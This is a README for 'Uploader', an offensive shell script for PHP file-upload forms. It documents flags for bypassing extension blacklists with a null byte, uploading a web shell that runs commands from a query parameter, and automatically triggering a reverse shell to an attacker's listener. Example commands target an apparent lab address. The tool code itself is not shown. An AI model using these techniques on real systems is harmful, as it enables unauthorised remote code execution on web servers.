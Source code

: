 # Uploader
A simple shell script that attempts to bypass extension blacklists for file uploads. If no arguments are provided it will default to interactive mode.

## Usage

`-h`: Display this help message

`-i <IP_Addres>`: The IP Address to use for the Reverse Shell payload (i.e. your interface)

`-p <PORT>`: The port that your listener is running on

`-u <URL>`: The target URL that's used in POST Requests to upload a file

`-n <NAME>`: The 'name' attribute that's used in POST Requests (e.g. `file` for name="file")

`-e <URL>`: Exploit mode. Attempts to automatically trigger a Reverse Shell. Enter the URL where uploaded files are saved to.

`-b`: Basic payload instead of a Reverse Shell. Provide commands as the value of the 0 parameter (e.g. `/evil.php?0=whoami`) . Incompatible with `-e`

`-a <EXTENSION>`: Allowed extension to use with Null Byte (defaults to jpg). Enter the extension without a period prepended.

 For example,

 `./uploader.sh -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -e http://10.10.40.117/uploads/ -a png`

 `./uploader.sh -u http://10.10.40.117/panel/ -n fileUpload -b`

## Functionality
As of now, Uploader is only designed for PHP based Web Applications that have file upload functionality using a POST request to send Boundary (multipart) Data.

The Reverse Shell payload works against Linux machines.

## In Development
This will eventually be integrated into the Ares toolsuite (https://github.com/Komodo-pty/ares-attack)

The following will be added in subsequent updates:

1) Support for more languages
2) Support for more types of file uploads
3) More types of upload bypasses
4) Payloads for Windows

